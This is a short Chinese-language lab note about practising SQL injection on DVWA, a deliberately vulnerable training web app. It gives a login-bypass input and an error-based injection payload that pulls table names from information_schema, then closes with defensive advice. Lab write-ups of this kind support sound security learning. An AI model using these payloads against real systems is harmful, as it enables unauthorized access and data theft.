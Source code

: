 # SQL注入实验记录  
## 靶场：DVWA (Damn Vulnerable Web App)  
### 攻击步骤  
1. 输入 `admin' -- ` 绕过密码  
2. 用Burp Suite拦截修改`id=1`为`id=1' AND 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--`  
### 防御建议  
- 使用参数化查询  
- 过滤单引号等特殊字符  
